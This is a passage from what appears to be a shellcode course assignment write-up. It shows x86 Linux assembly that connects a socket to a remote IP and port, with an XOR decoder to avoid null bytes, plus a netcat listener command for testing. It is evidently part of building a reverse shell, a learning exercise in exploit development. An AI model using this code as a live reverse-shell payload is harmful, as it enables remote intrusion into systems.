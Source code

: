 ``/usr/include/linux/net.h``

Apart from this, it is necesarry to declare the IP in the **addr* argument.

Finally, **to avoid null characters** on IP address or Port number is necessary to include a simple XOR decoder. Thus, when executing this program in conjunction with the *shellcoder* described later, the program will decode the IP & Port arguments on the fly.

````
; Connecting the TCP socket
; *addr section
mov edi,0x100007F       ;IP address to connect to is 127.0.0.1 (this will be decoded on runtime)
xor edi,0xFFFFFFFF      ;decoder for the IP address
push edi                ;loads the IP address
mov si,0xb822           ;loads the variable port on SI register
xor si,0xFFFF           ;decoder for the PORT number
push si                 ;loads the PORT number
inc ebx                 ;ebx is 0x2
push bx                 ;AF_INET = 2
mov ecx,esp             ;saves the pointer of addr on ecx
; now, store "sockfd,*addr,addrlen on ecx
push byte 16            ;loads 16 bytes for addrlen (IPv4 = 4bytes*4)
push ecx                ;loads the memory location of addr struct
push eax                ;loads the fd
mov ecx, esp
inc ebx                 ;ebx is 0x3 to declare SYS_CONNECT function on sys_socketcall
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80                ;executes the call
````
``Assembly code for connecting the socket to a remote address``

In order to test the execution of the program until this part, it is necessary to start a listener on port 8888: **nc -nv -l 8888**. Furthermore, to test this part of code without using the wrapper provided later on this article, is necessary to comment those lines that contain the word *decoder*. Otherwise the function will return an error, which will be stored on *EAX*.

![](../Images/03_slae_assignment_2.png)